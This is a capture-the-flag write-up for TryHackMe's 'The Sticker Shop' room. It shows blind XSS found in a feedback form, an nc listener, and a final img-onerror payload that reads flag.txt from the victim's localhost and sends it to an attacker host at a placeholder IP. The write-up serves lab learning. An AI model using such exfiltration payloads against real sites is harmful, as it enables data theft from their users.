 <img width="100" align="center" alt="thm" src="https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1718377390091" />

# The Sticker Shop 
**Can you exploit the sticker shop in order to capture the flag?**

Starting task, as we are going to face with a server run by a Local Sticker Shop hosted. I started the machine and jump over it.

<img width="1000" align="starting the machine" src="https://github.com/user-attachments/assets/3f0cd8ae-fec8-49b9-b1f2-c571779d3b88" />

<img width="1000" align="catppuccin line" src="https://github.com/user-attachments/assets/8a04c1c1-9f58-4f23-9548-4c71971b3576" />


The first step I took is to visit the website and looked for the source and found ``/submit_feedback`` dir, which catched me.

| <img widht="900" src="https://github.com/user-attachments/assets/4a67214b-a540-4705-a765-53b4eff79e2e" /> | <img width="900" src="https://github.com/user-attachments/assets/6741784c-c161-4b4d-a135-e871ae2f9742" /> |
| --- | --- |

And I visited to **``/submit_feedback``** and found a submition functionality available.

<img width="1000" alt="Screenshot from 2025-01-03 07-33-51" src="https://github.com/user-attachments/assets/7180ce37-e12d-430e-9481-b9236d30d07d" />

<img width="1000" align="catppuccin line" src="https://github.com/user-attachments/assets/8a04c1c1-9f58-4f23-9548-4c71971b3576" />

As soon I saw this, I just started to try random XSS payloads, from [payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list), and cam to this payload..

```js
<img src=x onerror="fetch('<ip>:8080')"/>
```
>[!NOTE]
> In the above payload an image would be loaded as img tag refers to **X** location, since the src fail to load and it simply goes to execute following and we just can grap the http request using ``nc``
>```js
> fetch('http://<ip>:8080');
>```
And I just ``nc`` the headers before the submition of the payload, and yeah like this !!!
```bash
nc -knvlp 8080
```
| ![Screenshot from 2025-01-03 08-10-35](https://github.com/user-attachments/assets/16818b62-29b4-428f-bfb6-a7df43471f59) | ![Screenshot from 2025-01-03 08-08-40](https://github.com/user-attachments/assets/122afe12-63cb-4e5c-a3f4-f140ab4fa642) |
| --- | --- |
<img width="1000" align="catppuccin line" src="https://github.com/user-attachments/assets/8a04c1c1-9f58-4f23-9548-4c71971b3576" />
Now to grab the flag I have used the following payload..

```js
<img src="x" onerror="fetch('http://127.0.0.1:8080/flag.txt').then(r => r.text()).then(r => fetch('http://<ip>:8080/?c=' + r)).catch(e => fetch('http://<ip>:8080/?c=' + e))"/>
```
>[!NOTE]
> Componenets..
* ```<img src="x" onerror="...">```  - The image ``src`` is invalid, causing the ``onerror`` attribute to execute when the browser fails to load the image. 
* ```fetch('http://127.0.0.1:8080/flag.txt')``` - This initiates an HTTP GET request to the victim's localhost at port 8080, targeting the ``flag.txt`` file.
* ```.then(r => r.text())``` - If the request succeeds, this processes the response (``r``) and converts it into text using the ``.text()`` method.
* ```.then(r => fetch('http://<ip>:8080/?c=' + r))``` - After retrieving the file content, another ``fetch`` request sends the content (``r``) to the attacker's server (``http://<ip>:8080``) as part of the query string (``?c=...``).
* ```.catch(e => fetch('http://<ip>:8080/?c=' + e))``` - If the initial ``fetch`` fails (e.g., the file doesn't exist or CORS blocks the request), the ``catch`` block handles the error and sends the error message (``e``) to the attacker's server.
